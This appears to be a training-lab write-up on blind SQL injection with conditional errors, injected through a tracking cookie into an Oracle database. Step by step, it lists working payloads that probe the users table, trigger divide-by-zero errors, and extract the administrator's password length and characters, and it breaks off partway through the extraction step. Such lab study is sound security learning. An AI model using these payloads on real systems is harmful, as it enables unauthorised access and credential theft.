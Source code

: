 Lab #12 - Blind SQL Injection with conditional errors

Vulnerable parameter - Tracking Cookie

End Goals:

- Obatain the password of administrator
- Login as administrator user

Analysis:

1. Confirm the parameter is vulnerable

   g31CW6mjktuq8Zkd' || (select '' from dual) || ' -> `200 OK response` -> `oracle database`

2. Confirm that the users table exists in database

   g31CW6mjktuq8Zkd' || (select '' from users where rownum=1) || ' -> `200 OK response` -> `users table exists`

3. Confirm that the user 'administrator' exists

   g31CW6mjktuq8Zkd' || (select '' from users where username='administrator') || ' -> returns **200 OK response**, no matter what (even if the administrator user doesn't exist)

   so we need to generate an error if the user exists...

   g31CW6mjktuq8Zkd' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator') || ' -> `gives 500 Internal Error` -> `user administrator exists`

4. Determine the length of password for the 'administrator'

   g31CW6mjktuq8Zkd' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND LENGTH(password)>=1) || ' -> `gives 500 Internal Error` -> `password greater than 1 char` -> `password = 20 characters`

5. Determine the password for the 'administrator'

   g31CW6mjktuq8Zkd' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND SUBSTR(password,`1`,1)='`a`') || ' -> `gives 500 Internal Error if `**1st**`char is`**a**

   
